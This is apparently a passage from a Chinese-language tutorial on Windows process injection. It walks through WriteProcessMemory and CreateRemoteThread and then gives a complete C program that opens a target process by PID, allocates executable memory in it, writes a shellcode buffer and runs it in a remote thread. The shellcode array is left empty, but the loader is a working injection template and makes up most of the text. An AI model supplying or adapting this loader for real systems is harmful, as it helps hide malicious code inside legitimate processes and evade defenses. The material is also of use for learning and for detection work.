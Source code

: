 ```
WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);

```

4、CreateRemoteThread

```
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);

```

```
remoteThread = CreateRemoteThread(processHandle, NULL, 0,
(LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

```

**接下来是完整的代码**

```
#include &lt;Windows.h&gt;
#include &lt;stdio.h&gt;

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = {};

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    printf("Injecting to PID: %i", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
  //打开进程
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode,
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  //申请内存
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
  //写入内存
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, 
  (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
  //创建远程线程
    CloseHandle(processHandle);
    return 0;
}

```
